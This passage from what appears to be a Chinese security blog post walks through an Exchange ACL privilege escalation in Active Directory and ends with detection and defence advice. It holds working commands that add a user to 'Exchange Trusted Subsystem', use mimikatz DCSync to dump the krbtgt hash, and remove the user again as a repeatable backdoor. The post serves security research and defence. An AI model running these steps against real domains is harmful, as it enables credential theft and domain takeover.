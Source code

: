 #### 2.将用户testb添加到Exchange Trusted Subsystem

由于用户testb有对`Exchange Trusted Subsystem`的完全访问权限，所以能够将自己添加到`Exchange Trusted Subsystem`组中

Powershell命令如下：

```
import-module .\Microsoft.ActiveDirectory.Management.dll
Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members testb
```

#### 3.重新登录用户testb

cmd：

```
runas /user:test\testb cmd
```

#### 4.使用mimikatz的DCSync功能导出用户krbtgt的hash

cmd：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:krbtgt /csv" exit
```

#### 5.将用户testb从Exchange Trusted Subsystem组中移除

Powershell命令如下：

```
import-module .\Microsoft.ActiveDirectory.Management.dll
Remove-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members testb -confirm:$false
```

由于用户testb具有对`Exchange Trusted Subsystem`的完全访问权限，所以能够反复将自己添加或是移除`Exchange Trusted Subsystem`

## 0x04 检测和防御建议
---

从根源上修复：去除`Exchange Windows Permissions`的WriteDACL权限

可供参考的脚本：

https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/Fix-DomainObjectDACL.ps1

日志检测：

需要开启Active Directory的高级安全审核策略，当域对象的ACL被修改后，将产生ID为5136的日志

参考资料：

https://blogs.technet.microsoft.com/canitpro/2017/03/29/step-by-step-enabling-advanced-security-audit-policy-via-ds-access/

## 0x05 小结
---

本文记录了使用Exchange中特定ACL进行提权的过程，分析了利用条件，结合这个机制介绍了一个提权后门的利用方法，最后给出检测和防御建议。



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)







